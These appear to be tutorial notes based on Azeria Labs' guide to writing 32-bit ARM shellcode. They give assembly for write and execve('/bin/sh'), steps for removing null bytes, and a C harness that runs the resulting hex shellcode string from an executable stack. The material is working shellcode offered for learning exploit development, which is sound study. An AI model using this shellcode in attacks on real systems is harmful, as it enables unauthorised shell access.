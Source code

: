 # Azeria: Introduction To Writing ARM Shellcode

This is based on: https://azeria-labs.com/writing-arm-shellcode/
This is the 32 bit Version.

## Understanding System Functions

We can check the source code of `write()`:

```
(gdb) disas write
Dump of assembler code for function write:
   0xf7763f80 <+0>:     ldr.w   r12, [pc, #74]  ; 0xf7763fce
   0xf7763f84 <+4>:     add     r12, pc
   0xf7763f86 <+6>:     ldr.w   r12, [r12]
   0xf7763f8a <+10>:    teq     r12, #0
   0xf7763f8e <+14>:    push    {r7}
   0xf7763f90 <+16>:    bne.n   0xf7763fa4 <write+36>
   0xf7763f92 <+18>:    movs    r7, #4
   0xf7763f94 <+20>:    svc     0
   0xf7763f96 <+22>:    pop     {r7}
   0xf7763f98 <+24>:    cmn.w   r0, #4096       ; 0x1000
   0xf7763f9c <+28>:    it      cc
   0xf7763f9e <+30>:    bxcc    lr
   0xf7763fa0 <+32>:    b.w     0xf76f2990 <__syscall_error>
   0xf7763fa4 <+36>:    push    {r0, r1, r2, r3, lr}
   0xf7763fa6 <+38>:    bl      0xf7777a88 <__libc_enable_asynccancel>
   0xf7763faa <+42>:    mov     r12, r0
   0xf7763fac <+44>:    pop     {r0, r1, r2, r3}
   0xf7763fae <+46>:    movs    r7, #4
   0xf7763fb0 <+48>:    svc     0
   0xf7763fb2 <+50>:    mov     r7, r0
   0xf7763fb4 <+52>:    mov     r0, r12
   0xf7763fb6 <+54>:    bl      0xf7777b10 <__libc_disable_asynccancel>
   0xf7763fba <+58>:    mov     r0, r7
   0xf7763fbc <+60>:    ldr.w   lr, [sp], #4
   0xf7763fc0 <+64>:    pop     {r7}
   0xf7763fc2 <+66>:    cmn.w   r0, #4096       ; 0x1000
   0xf7763fc6 <+70>:    it      cc
   0xf7763fc8 <+72>:    bxcc    lr
   0xf7763fca <+74>:    b.w     0xf76f2990 <__syscall_error>
```

And to re-write it in our own shellcode:
```
root@hlUbuntu32:~/challenges/challenge20# cat write.s
.data
string: .asciz "Azeria Labs\n"  @ .asciz adds a null-byte to the end of the string
after_string:
.set size_of_string, after_string - string

.text
.global _start

_start:
   mov r0, #1               @ STDOUT
   ldr r1, addr_of_string   @ memory address of string
   mov r2, #size_of_string  @ size of string
   mov r7, #4               @ write syscall
   swi #0                   @ invoke syscall

_exit:
   mov r7, #1               @ exit syscall
   swi 0                    @ invoke syscall

addr_of_string: .word string
```

Lets execute it:
```
root@hlUbuntu32:~/challenges/challenge20# ./write
Azeria Labs
```

## Syscall Number and Parameters

Execve Shellcode Source `execve1.s`:
```
/* execve() assembly code from the tutorial 'Writing ARM Shellcode' (https://azeria-labs.com/writing-arm-shellcode/),
first example containing null-bytes */

.section .text
.global _start

_start:
        add r0, pc, #12
        mov r1, #0
        mov r2, #0
        mov r7, #11
        svc #0

.ascii "/bin/sh\0"
```

Lets execute it:

```
root@hlUbuntu32:~/challenges/challenge20# ./execve1
#
```

## De-Nullify Shellcode

Execve Shellcode without NULL's in code Source `execve2.s`:
```
/* execve() assembly code from the tutorial 'Writing ARM Shellcode' (https://azeria-labs.com/writing-arm-shellcode/),
second example containing one null-byte */

.section .text
.global _start

_start:
        .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        mov r7, #11
        svc #1
        mov r5, r5

.ascii "/bin/sh\0"
```

Test it:
```
root@hlUbuntu32:~/challenges/challenge20# ./execve2
#
```

Execve without NULL in string source `execve3.s`:
```
/* execve() assembly code from the tutorial 'Writing ARM Shellcode' (https://azeria-labs.com/writing-arm-shellcode/), thrid example without null-bytes */
.section .text
.global _start

_start:
        .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        strb r2, [r0, #7]
        mov r7, #11
        svc #1

.ascii "/bin/shx"
```

Note: If you execute this, you'll receive a segmentation fault at the
`strb` instruction. Do you know the reason?


## Transform Shellcode into Hex string

Copy the content of the program into a separate file:
```
$ objcopy -O binary execve3 execve3.bin
```

And use the python script to convert it:
```
$ ./toshellcode.py execve3.bin
```

You can try it in the following program:
```
#include <stdio.h>
#include <string.h>

// Len: 28
char *shellcode = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78";

int main(void) {
        char s[32];
        memcpy(s, shellcode, 28);

        ( *( void(*)() ) s)();
}
```

Note that we have to copy the shellcode into a stack variable.
We also have to compile it with executable stack enabled.


# Questions

## Questions
* Why does `execve3` not execute?
* Why do we have to copy the shellcode to the stack in `execve3.s`?
* Why do we enable executable stack on `execve3.s` ?

## Answers
All three questions have the same answer. The shellcode is modifying part of
itself (the string), so it has to be writeable. But it will also be executed, so
we have to enable executable stack.
